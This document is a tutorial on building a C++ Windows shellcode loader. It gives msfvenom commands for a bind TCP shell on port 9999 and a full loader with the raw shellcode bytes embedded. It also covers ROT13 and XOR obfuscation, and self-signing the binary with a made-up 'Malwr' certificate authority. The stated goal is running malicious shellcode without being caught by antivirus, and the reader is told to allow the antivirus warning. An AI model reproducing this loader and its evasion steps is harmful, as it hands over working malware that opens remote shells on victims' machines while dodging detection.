






# Shellcode Loader (C++)

Shellcode is code that leverages known platform-specific mechanics to execute specific actions (create a process, initiate TCP connection etc.). Windows shellcodes usually use **TEB (Thread Environment Block)** and **PEB (Process Environment Block)** to find address of loaded system libraries (`kernel32.dll`, `kernelbase.dll` or `ntdll.dll`) and then “browse” them to find addresses of `LoadLibrary` and `GetProcAddress` functions which then can be used to locate other functions.

The actual way to execute shellcode is a bit different. We need to:

- allocate a new memory region using [`VirtualAlloc`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) (or [`VirtualAllocEx`](https://docs.microsoft.com/pl-pl/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) for remote processes) Windows API function,
- fill it with the shellcode bytes (e.g. with [`RtlCopyMemory`](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory) function which is basically a `memcpy` wrapper),
- create a new thread using [`CreateThread`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) or [`CreateRemoteThread`](https://docs.microsoft.com/pl-pl/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) function, respectively.

Let’s create a C++ application that will run malicious shellcode while trying to not be caught by AV software.

Why C++ and not C# or PowerShell script? Because it’s much more difficult to analyze compiled binary when compared to managed code or script. We will use MS Visual Studio 2017 or 2019 on Windows 10 for compiling.

In Visual Studio, open the **File** menu and choose **New > Project** to open the **Create a new Project** dialog. Select the **Console App** template that has **C++**, **Windows**, and **Console** tags, and then choose **Next**.


**<u>Generate the shellcode:</u>**

```bash
msfvenom -p windows/shell_bind_tcp LPORT=9999 -f c
```


**<u>Create the C++ script:</u>**

```c++
#include <Windows.h>

//purposely set to void instead of int
void main()
{
	const char shellcode[] = "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40"
"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x27\x0f\x89"
"\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x57\x68\xb7"
"\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97"
"\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57"
"\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c"
"\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46"
"\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0"
"\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5"
"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb"
"\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```

Before publishing our executable we should make sure to remove some artifacts from the binary. It is a good idea to discard any debugging symbols and information - this can be achieved by switching build configuration to “Release” and disabling generation of debug information (linker configuration in project properties).



Your windows virus protection will freak out but just allow it.

### Testing Against VirusTotal




### Basic Obfuscation

First thing which comes in mind is to modify the shellcode to evade static signatures based on its content.

We can try the simplest “encryption” - apply ROT13 cipher to all bytes of embedded shellcode - so `0x41` becomes `0x54`, `0xFF` becomes `0x0C` and so on. During execution the shellcode will get “decrypted” by substracting a value of `0x0D` (13) from every byte.

```c++
//add this for loop between the DWORD and HANDLE lines
for (int i = 0; i < sizeof shellcode; i++)
	{
		((char*)shellcode_exec)[i] = (((char*)shellcode_exec)[i]) - 13;
	}
```

We can also use XOR encryption (with constant single-byte key) instead of Caesar Cipher:

```c++
for (int i = 0; i < sizeof shellcode; i++)
{
	((char*)shellcode_exec)[i] = (((char*)shellcode_exec)[i]) ^ '\x35';
}
```

But the engines will still detect this.


### Sign the binary

Some malware detection engines may flag unsigned binaries as suspicious. Let’s generate code signing infrastructure - we will need certificate authority and code-signing certificate:

```bash
makecert -r -pe -n "CN=Malwr CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv MalwrCA.pvk MalwrCA.cer
certutil -user -addstore Root MalwrCA.cer
makecert -pe -n "CN=Malwr Cert" -a sha256 -cy end -sky signature -ic MalwrCA.cer -iv MalwrCA.pvk -sv MalwrCert.pvk MalwrCert.cer
pvk2pfx -pvk MalwrCert.pvk -spc MalwrCert.cer -pfx MalwrCert.pfx
signtool sign /v /f MalwrCert.pfx /t http://timestamp.sectigo.com Malware_test.exe
```

After executing above commands, we have generated “Malwr” certificate authority, imported it to our certificate store, created code-signing certificate in `.pfx` format and used it to sign the executable.




### Linked Libraries

The following properties are found under **Project** > **Properties** > **Configuration Properties** > **Linker**. For more information about the linker, see [CL Invokes the Linker](https://docs.microsoft.com/en-us/cpp/build/reference/cl-invokes-the-linker?view=msvc-160) and [Linker Options](https://docs.microsoft.com/en-us/cpp/build/reference/linker-options?view=msvc-160).





Not a huge difference...


### Switching to x64

```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=9999 -f c
```




And this is the lowest we'll get with cert signing, removing linked libraries, and switching to x64